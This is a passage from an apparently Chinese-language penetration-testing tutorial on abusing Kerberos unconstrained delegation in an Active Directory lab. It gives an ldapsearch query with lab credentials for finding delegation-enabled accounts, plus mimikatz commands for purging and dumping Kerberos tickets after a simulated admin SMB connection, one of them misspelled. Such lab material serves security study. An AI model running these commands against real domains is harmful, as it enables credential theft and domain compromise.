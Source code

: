 **查询非约束委派的用户：**

`ldapsearch -LLL -x -H ldap://172.16.147.130:389 -D "win7user@pentest.com" -w "123456" -b dc=pentest,dc=com "(&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=524288))" cn distinguishedName`

#### [](#222-%E9%9D%9E%E7%BA%A6%E6%9D%9F%E5%A7%94%E6%B4%BE%E7%9A%84%E5%88%A9%E7%94%A8)2.2.2 非约束委派的利用

##### [](#2221-%E7%AE%A1%E7%90%86%E5%91%98%E6%A8%A1%E6%8B%9F%E8%AE%BF%E9%97%AE)2.2.2.1 管理员模拟访问

信息

实验前建议清除内存中的票据，mimikatz 下：`kerberos::purge`

模拟管理员调用非约束性委派机的 smb 服务：`net use \\win7\c$`

回到非约束委派机，查看票据 (**部分截图**)：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>privilege::debug<br>sekualsa::tickets<br>``` |

![https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210125153427.png-water_print](assets/1699409170-5d090273144a1a421b1d5c25f4737314.jpg "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/20210125153427.png-water_print")
